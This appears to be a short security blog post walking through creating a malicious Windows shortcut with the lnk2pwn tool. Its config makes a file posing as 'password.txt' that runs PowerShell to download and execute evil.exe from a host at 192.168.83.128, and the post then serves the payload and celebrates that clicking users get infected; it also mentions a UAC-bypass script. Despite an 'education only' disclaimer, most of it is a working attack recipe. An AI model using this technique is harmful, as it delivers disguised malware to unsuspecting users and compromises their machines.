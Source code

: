 ```yaml
---
title: "Create malicious Shortcut .LNK"
date: "2020-10-03"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Hey, everyone. Let's create some fileless malware using shortcut (.lnk). 

Don't do bad things haa, Allah marah! This is for education and research purpose only.

## Malicious Shortcut(.lnk) Generator

So, Lnk2Pwn will help us generate malicious shortcut .lnk
For nstallation, lnk2pwn requires **python2.7** and **wine** to create a Windows shortcut:

    sudo apt-get install python2.7
    sudo apt-get install wine

You can get the lastest version by clonning this repository:

    git clone https://github.com/tommelo/lnk2pwn.git

In lnk2pwn directory, edit config.json. The project contains a template file called config.json that defines the attributes of the .lnk file:

    {
        "shortcut": {
            "target_path": "C:\\Windows\\System32\\cmd.exe",
            "working_dir": "C:\\Windows\\System32",
            "arguments": "/c powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.83.128:8000/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'"",
            "icon_path": "C:\\Windows\\System32\\notepad.exe",
            "icon_index": null,
            "window_style": "MINIMIZED",
            "description": "Password",
            "fake_extension": ".txt",
            "file_name_prefix": "password"
        },
    
        "elevated_uac": {
            "file_name": "uac_bypass.vbs",
            "cmd": "cmd.exe"
        }
    }

So, basically the `arguments` part will execute Powershell (PS) command that tell PS to download `evil.exe` and put the `evil.exe` into temp (%temp%) folder. After semicolon, we tell the PS to start/execute our `evil.exe`.

Now, run this line to generate our malicious .lnk:

    python lnk2pwn.py -c config.json -o [destination]

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/1.PNG)

Our lnk file now has been generated. Let's put this malicious .lnk file into our target machine.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/2.PNG)
Looks legit right?

## Open our HTTP server
Setup our HTTP server so that evil.exe can be download from HTTP link we give in our PS line (`http://192.168.83.128:8000/evil.exe`)

    python -m SimpleHTTPServer

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/3.PNG)
## Pwned by a Shortcut

So, if a user click the `password.txt`(.lnk), they will be infected. Hooray 🎉

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/3.gif)
